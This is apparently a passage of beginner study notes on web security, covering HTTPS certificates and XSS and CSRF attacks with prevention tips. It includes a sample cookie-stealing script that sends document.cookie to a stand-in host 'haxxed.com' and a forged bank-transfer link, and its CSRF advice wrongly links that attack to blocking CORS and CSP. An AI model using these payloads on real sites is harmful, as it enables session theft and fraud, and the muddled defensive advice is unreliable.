 ## HTTPS

HTTPS, as we know, is the _secure_ version of the HTTP. Nowadays, it's fundamental and, technically mandatory in some states, to deploy your Site in an HTTP protocol. This ensure that you are who you say you are.
To have an HTTPS version of your site, you have to first get an SSL/TLS Certificate.
How can you get it?
One of the many resources (this is Free), it's [Let's Encrypt](https://letsencrypt.org/it/).
Alternatives are:
* Deploy your site in hosted servers (such as GitHub, Vercel, Cloudflare, and so on)
* Buy an authority certificate

## XSS + CSRF {#xss-csrf}

**XSS** (_Cross Site Scripting_) and **CSRF** (_Cross Site Request Forgery_).
**XSS** occurs whenever an application includes untrusted data in a new webpage without proper validation or escaping.
It allows an hacker, or whatever, to execute some kind of scripts. For example, if in a comment you put `<script>breakThePage()</script>`, then every other user's browser will execute that script. We've seen this in the "[Injections](#injections)" chapter.
An example of malicius script can be:
```
window.location = 'haxxed.com?cookie=' + document.cookie
```
This send the user to the "bad site" that the attacker created, also sending all the data (cookies) that the victim site have.

CSRF are attacks that make the user click a link to send him in a fake location.
An example:
```
<a href="http://netbank.com/transfer.do?acct=Attacker&amount;=$100">Read more!</a>
```
If a user click in the link inside his trusted bank account, his browser will have the cookies to keep the user logged in, so the link can actually perform the action where the user have to pay $100 to the hacker.

To prevent this attack, you have to block _Cross Origin Resource Sharing_ (CORS), in other words, sending vulnerable data across different domains. You have to set the "Content-Security-Policy" in your reuqest's header to "script-src 'self'". If you add scripts to other libraries, you can simply secure each of them by adding 'https://your3rdpartylibrary.com' (where the link is the url of the library).

Some guidelines:
* Sanitize inputs
* Never use JS's `eval()` function
* No `document.write()`
* Content Security Policy
* Secure + HTTPOnly Cookies

One library to avoid CSRF in NodeJS is **csurf**.

Cute and funny resources to know more (this are actully really understandable and wishy squishy. I recommend them):
* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
